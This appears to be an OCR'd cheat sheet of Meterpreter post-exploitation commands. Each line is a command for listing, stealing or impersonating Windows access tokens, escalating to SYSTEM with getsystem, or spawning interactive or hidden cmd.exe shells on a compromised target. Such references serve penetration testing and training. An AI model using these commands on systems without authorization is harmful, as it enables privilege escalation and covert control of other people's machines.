 ## List available tokens on the target by user.
```
list_tokens -u
```

## List available tokens on the target by group.
```
list_tokens -g
```

## Impersonate a token available on the target.
```
impersonate_token <DOMAIN_NAMEUSERNAME>
```

## Steal the tokens available for a given process and impersonate that token.
```
steal_token <proc. id>
```

## Stop impersonating the current token.
```
drop_token
```

## Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.
```
getsystem
```

## Drop into an interactive shell with all available tokens.
```
shell
```

## Execute cmd.exe and interact with it.
```
execute -f <cmd.exe> -i
```

## Execute cmd.exe with all available tokens.
```
execute -f <cmd.exe> -i -t
```

## Execute cmd.exe with all available tokens and make it a hidden process.
```
execute -f <cmd.exe> -i -H -t
```
